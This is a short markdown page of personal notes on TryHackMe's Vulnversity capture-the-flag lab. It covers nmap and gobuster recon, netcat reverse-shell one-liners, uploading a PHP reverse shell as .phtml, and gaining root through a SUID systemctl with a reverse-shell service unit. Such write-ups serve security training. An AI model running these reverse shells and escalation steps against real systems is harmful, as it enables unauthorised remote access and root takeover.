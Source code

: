 ```yaml
---
layout: md
title: TryHackMe Vulnversity CTF
description: Notes on tryhackme.com's vulnversity challenge
tags: ['security', 'tryhackme']
sort_key: 1
---
```


{% include project-headers.html %}

#### Nmap Recon
Use nmap to scan ports and try to find details about services and versions on those ports 
```bash
nmap -sV -sC <target>
```

#### Finding web routes
Try bruteforce webpages/directories using [gobuster](https://github.com/OJ/gobuster)
```bash
gobuster dir -u <webapp> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

#### Netcat commands
```
basic connection:
nc -lvnp 4444 [> /path/to/file.ext]
nc <ip> <port> [< /path/to/file.ext]

reverse shells:
nc -e /bin/bash <ip> <port>
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```
#### File inclusion for reverse shell
Upload [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) as `.phtml`, setup a nc listener, load the phtml location.

#### Search for SUID bit
```
find / -perm /4000
...
/bin/systemctl
```

Exploiting systemctl, reverse shell using netcat openbsd from systemctl service.
```bash
[Unit]
Description=root-shell

[Service]
ExecStart=/bin/bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f"

[Install]
WantedBy=multi-user.target
```
```bash
/bin/systemctl enable /path/to/root-shell.service
/bin/systemctl start root-shell
```


